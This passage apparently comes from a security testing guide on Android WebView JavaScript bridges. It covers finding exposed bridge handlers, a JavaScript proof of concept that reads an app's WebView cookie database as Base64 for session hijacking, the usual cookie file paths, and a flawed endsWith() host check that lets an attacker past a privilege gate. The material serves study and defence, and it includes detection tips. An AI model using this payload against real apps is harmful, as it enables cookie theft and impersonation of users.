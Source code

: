 Risk: if any registered handler performs privileged actions on attacker data (e.g., direct file reads), you can call it by setting `handlerName` accordingly. Results are usually posted back into the page context via `evaluateJavascript` and a callback/promise mechanism keyed by `callbackId`.

Key hunting steps
- Decompile and grep for `addJavascriptInterface(` to learn the bridge object name (e.g., `xbridge`).
- In Chrome DevTools (chrome://inspect), type the bridge object name in the Console (e.g., `xbridge`) to enumerate exposed fields/methods; look for a generic dispatcher like `invokeMethod`.
- Enumerate handlers by searching for classes implementing `getModuleName()` or registration maps.

#### Arbitrary file read via URI → File sinks (Base64 exfiltration)

If a handler takes a URI, calls `Uri.parse(req.getUri()).getPath()`, builds `new File(...)` and reads it without allowlists or sandbox checks, you get an arbitrary file read in the app sandbox that bypasses WebView settings like `setAllowFileAccess(false)` (the read happens in native code, not via the WebView network stack).

PoC to exfiltrate the Chromium WebView cookie DB (session hijack):

```javascript
// Minimal callback sink so native can deliver the response
window.WebViewJavascriptBridge = {
  _handleMessageFromObjC: function (data) { console.log(data) }
};

const payload = JSON.stringify({
  handlerName: 'toBase64',
  callbackId: 'cb_' + Date.now(),
  data: { uri: 'file:///data/data/<pkg>/app_webview/Default/Cookies' }
});

xbridge.invokeMethod(payload);
```

Notes
- Cookie DB paths vary across devices/providers. Common ones:
  - `file:///data/data/<pkg>/app_webview/Default/Cookies`
  - `file:///data/data/<pkg>/app_webview_<pkg>/Default/Cookies`
- The handler returns Base64; decode to recover cookies and impersonate the user in the app’s WebView profile.

Detection tips
- Watch for large Base64 strings returned via `evaluateJavascript` when using the app.
- Grep decompiled sources for handlers that accept `uri`/`path` and convert them to `new File(...)`.

#### Bypassing WebView privilege gates – endsWith() host checks

Privilege decisions (selecting a JSB-enabled Activity) often rely on host allowlists. A flawed pattern is:

```java
String host = Uri.parse(url).getHost();
boolean z = true;
if (!host.endsWith(".trusted.com")) {
    if (!".trusted.com".endsWith(host)) {
        z = false;
    }
}
// z==true → open privileged WebView
```
